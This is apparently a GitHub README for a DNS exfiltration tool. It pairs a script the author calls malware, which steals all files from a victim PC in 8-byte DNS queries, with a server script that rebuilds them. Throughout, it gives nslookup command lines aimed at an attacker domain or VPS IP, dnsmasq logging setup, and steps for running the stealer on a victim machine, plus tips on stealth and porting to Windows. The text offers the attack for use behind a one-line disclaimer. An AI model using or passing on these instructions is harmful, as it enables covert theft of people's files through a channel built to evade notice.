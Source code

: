 # DnsExfiltration

I do not take any responsibility for your usage

**First you need to know how a DNS works and what DNS Exfiltration stands for...**

There are two scripts:
	
	1) Malware script that steal all the files from the PC that runs it
	2) DNS server script that recomposes all the victim files 


The first script goes through the file system and It "slowly" send a part of this to a malicious DNS server. I say slowly because for each DNS query this script exfiltrate 8 byte of information.

if you are authoritative for a certain domain you have to set the script in order to execute:
	
	:~$ nslookup x.payload."yourDomain"
	
	for example:
	
	:~$ nslookup x.payload.xor.com
	
	ps: "xor.com" does not exist, it is just an example

if You are not authoritative, You have just to configure a VPS like a DNS query forwarder and then set the script to make it run:

	:~$ nslookup x.payload."oneDomanin" "MaliciousVpsIP"

	for example:

	:~$ nslookup x.payload.xor.com 172.50.100.150


The payload length is more of 8 byte but It contains 8 byte of one file content + the file part number, the file part number is used to recompose the file parts on the DNS:
	
	A payload may be one of this:
		0 + fileName
		1 + first 8 byte of the file
		2 + the next 8 byte of the file
		3 + again 8 byte ....

From these payloads the malicious DNS script will be able to create and fill the exfiltrated file





## CONFIGURE DNS QUERY FORWARDER:
If you as me can not go to the Delegation Authority to become authoritative for a certain domain, You have to configure a VPS like a DNS query forwarder. I have used 'dnsmasq' demon, you have to configure it:
	
	Open /etc/dnsmasq.conf and append:
		log-queries
		log-facility=/tmp/dnsmasq.log
	These tells dnsmasq to save all the DNS query in a specific file that will be read by the DNS server side script





## HOW TO RUN:
1) Add your domain or the VPS IP in the "exfiltrator.py" malware script.
2) If you are authoritative configure your DNS, if you are not I suggest You to create a VPS and configure dnsmaq as I explain before.
3) Configure the right path in the "composer.py" DNS side script. You have to tell the script where It has to read all the query log. Just to be sure you have understood: Write the path You have set in the DNS configuration or dnsmasq configuration.
4) To have a try, run on the DNS server "composer.py" ( **:~$ python composer.py** ) and then run (or make it run) "exfiltrator.py" ( **:~$ python exfiltrator.py** ) script on the victim machine.
5) Wait and see 

As you can see, the malware script wait 1 second for each query and wait 1 second for each file passed through the file system. These wait are here because i tested this on my slow VPS... you can remove these waiting or keep it, it depends on how much you want be loud.

As you can see from the code, this script supports 1 attack at the same time. This script does not currently work on Windows Systems because Windows use "\\" in paths, while here i use "/" (...because i wrote and tested this on and for Linux...). So if you want to use this on windows make the correct very easy changes... lol.

